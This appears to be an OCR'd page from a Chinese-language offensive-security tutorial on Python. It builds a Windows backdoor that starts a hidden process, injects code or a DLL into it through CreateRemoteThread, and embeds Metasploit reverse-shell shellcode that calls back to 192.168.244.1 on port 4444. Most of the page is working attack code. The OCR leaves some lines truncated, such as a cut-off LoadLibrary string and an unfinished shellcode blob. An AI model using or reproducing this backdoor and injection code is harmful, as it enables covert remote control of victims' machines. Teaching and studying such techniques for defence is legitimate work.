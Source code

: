 ```py
startupinfo.dwFlags = 0x1
startupinfo.wShowWindow = 0x0 
startupinfo.cb = sizeof(startupinfo)
# First things first, fire up that second process
# and store its PID so that we can do our injection 
kernel32.CreateProcessA(path_to_exe,
    None, None, None, None,
    creation_flags, None,
    None, byref(startupinfo),
    byref(process_information)) 
pid = process_information.dwProcessId 
```

一样很简单，没有新代码。接下来让我们把注入的代码加到后门中。我们的注入函数能 够处理代码注入和 DLL 注入两种情况；parameter 标志设置为 1，data 变量包含 DLL 路径， 就能进行 DLL 注入，默认情况下 parameter 设置成 0，就是代码注入。跟黑的在后面。

```py
#backdoor.py
...
def inject( pid, data, parameter = 0 ):
    # Get a handle to the process we are injecting into.
    h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
    if not h_process:
        print "[*] Couldn't acquire a handle to PID: %s" % pid 
        sys.exit(0)
    arg_address = kernel32.VirtualAllocEx(h_process, 0, len(data), VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
    written = c_int(0)
    kernel32.WriteProcessMemory(h_process, arg_address, data, len(data), byref(written))
    thread_id = c_ulong(0) 
    if not parameter:
        start_address = arg_address
    else:
        h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll") 
        start_address = kernel32.GetProcAddress(h_kernel32,"LoadLibra 
        parameter = arg_address
    if not kernel32.CreateRemoteThread(h_process,None, 0,start_address,parameter,0,byref(thread_id)):
        print "[*] Failed to inject the DLL. Exiting." 
        sys.exit(0)
    return True 
```

现在我们有了能够支持两种注入的代码。是时候将两段不同的 shellcode 注入真正的 cacl.exe 进程了，一个 shellcode 反弹 shell 给我们，另一个杀死后门进程。

```py
#backdoor.py
...
# Now we have to climb out of the process we are in
# and code inject our new process to kill ourselves
#/* win32_reverse - EXITFUNC=thread LHOST=192.168.244.1 LPORT=4444 
#Size=287 Encoder=None http://metasploit.com */
connect_back_shellcode = 
    "\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24\x8b\x45" \ 
    "\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f\x20\x01\xeb\x49" \ 
    "\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84\xc0\x74\x07\xc1\xca\x0d" \ 
    "\x01\xc2\xeb\xf4\x3b\x54\x24\x28\x75\xe5\x8b\x5f\x24\x01\xeb\x66" \ 
    "\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61" \ 
    "\xc3\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40" \ 
    "\x08\x5e\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" \ 
    "\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50\xff\xd6" \ 
    "\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff\xd0\x68\xd9\x09" \ 
    "\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43\x53\x43\x53\xff\xd0\x68" \ 
    "\xc0\xa8\xf4\x01\x66\x68\x11\x5c\x66\x53\x89\xe1\x95\x68\xec\xf9" \ 
    "\xaa\x60\x57\xff\xd6\x6a\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68" \ 
```